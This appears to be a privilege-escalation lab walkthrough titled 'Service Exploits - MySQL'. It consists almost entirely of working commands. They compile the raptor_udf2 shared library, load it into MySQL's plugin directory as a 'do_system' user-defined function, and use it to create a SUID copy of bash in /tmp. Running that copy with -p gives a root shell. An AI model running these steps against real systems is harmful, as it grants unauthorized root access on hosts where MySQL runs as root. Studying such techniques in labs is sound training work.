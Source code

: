# Service Exploits - MySQL

`cd /home/user/tools/mysql-udf`

`gcc -g -c raptor_udf2.c -fPIC`

`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

`mysql -u root`

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:

`use mysql;`

`create table foo(line blob);`

`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`

`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`

`create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`
